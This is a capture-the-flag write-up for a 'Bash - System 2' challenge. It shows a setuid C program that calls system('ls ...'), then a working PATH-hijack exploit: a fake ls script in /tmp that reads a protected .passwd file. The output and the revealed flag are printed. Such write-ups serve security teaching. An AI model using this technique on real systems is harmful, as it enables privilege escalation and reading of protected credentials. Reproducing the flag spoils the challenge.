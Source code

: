 ---
tags: []
---
# Bash - System 2

- **Description:** Simple script
- **Difficulty:** Very easy

---

## 🔎 Solution
This challenge is quite similar to the **Bash - System 1** challenge, although the exploitation method here is slightly more involved.

When the user executes the `ch12` binary, it internally runs `ls -lA ...`.
```
int main(){
    setreuid(geteuid(), geteuid());
    system("ls -lA /challenge/app-script/ch12/.passwd");
    return 0;
}
```
Our goal is to access the contents of the `.passwd` file. 
To achieve that, we can take advantage of how the `system()` function relies on the environment's **$PATH** variable to locate binaries like `ls`.

We'll approach this by creating *a fake ls* script that actually runs cat, then modify $PATH so that the program executes our version instead of the real `/bin/ls`.
1. Create a fake ls script:
```
echo '#!/bin/sh' > /tmp/mybin/ls
echo 'cat /challenge/app-script/ch12/.passwd' >> /tmp/mybin/ls
chmod +x /tmp/mybin/ls
```
This script mimics `ls`, but instead prints the contents of the target file.

2. Execute the binary with the modified $PATH:
```
app-script-ch12@challenge02:~$ PATH=/tmp/mybin:$PATH ./ch12
8a95eDS/*e_T#
```
And just like that, the program runs our fake ls, revealing the flag.

## 🚩Flag
> `8a95eDS/*e_T#`
